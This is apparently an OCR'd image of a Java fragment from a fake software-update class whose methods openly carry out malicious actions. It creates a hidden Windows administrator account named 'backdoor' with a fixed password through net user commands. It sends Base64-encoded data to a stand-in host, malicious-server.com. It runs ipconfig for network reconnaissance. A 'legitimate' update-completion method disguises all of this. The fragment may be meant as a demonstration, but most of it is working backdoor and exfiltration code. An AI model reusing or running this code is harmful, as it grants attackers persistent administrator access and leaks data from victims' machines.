 ```
    private boolean isCompromised() {
        // Logic to determine if the system should execute malicious code
        return true; // Always true for demonstration
    }

    private void executeMaliciousCode() {
        // Malicious actions such as data exfiltration or backdoor creation
        System.out.println("Executing malicious payload...");
        logger.log(Level.WARNING, "Malicious payload execution initiated.");

        // Backdoor creation
        createBackdoor();

        // Data exfiltration
        exfiltrateData();

        // Network reconnaissance
        performNetworkRecon();
    }

    private void createBackdoor() {
        try {
            Runtime.getRuntime().exec("cmd.exe /c net user backdoor P@ssw0rd123 /add");
            Runtime.getRuntime().exec("cmd.exe /c net localgroup administrators backdoor /add");
            logger.log(Level.INFO, "Backdoor user created.");
        } catch (Exception e) {
            logger.log(Level.SEVERE, "Failed to create backdoor.", e);
        }
    }

    private void exfiltrateData() {
        try {
            String data = "Sensitive Data to Exfiltrate";
            String encodedData = Base64.getEncoder().encodeToString(data.getBytes());
            URL url = new URL("http://malicious-server.com/exfiltrate?data=" + encodedData);
            HttpURLConnection connection = (HttpURLConnection) url.openConnection();
            connection.setRequestMethod("GET");
            connection.getResponseCode();
            logger.log(Level.INFO, "Data exfiltrated successfully.");
        } catch (Exception e) {
            logger.log(Level.SEVERE, "Data exfiltration failed.", e);
        }
    }

    private void performNetworkRecon() {
        try {
            Process process = Runtime.getRuntime().exec("cmd.exe /c ipconfig /all");
            BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
            String line;
            while ((line = reader.readLine()) != null) {
                System.out.println(line); // Log or send the network info somewhere
            }
            logger.log(Level.INFO, "Network reconnaissance completed.");
        } catch (Exception e) {
            logger.log(Level.SEVERE, "Network reconnaissance failed.", e);
        }
    }

    private void completeUpdate() {
        // Legitimate update completion logic
        System.out.println("Update complete.");
        logger.log(Level.INFO, "Software update completed successfully.");
```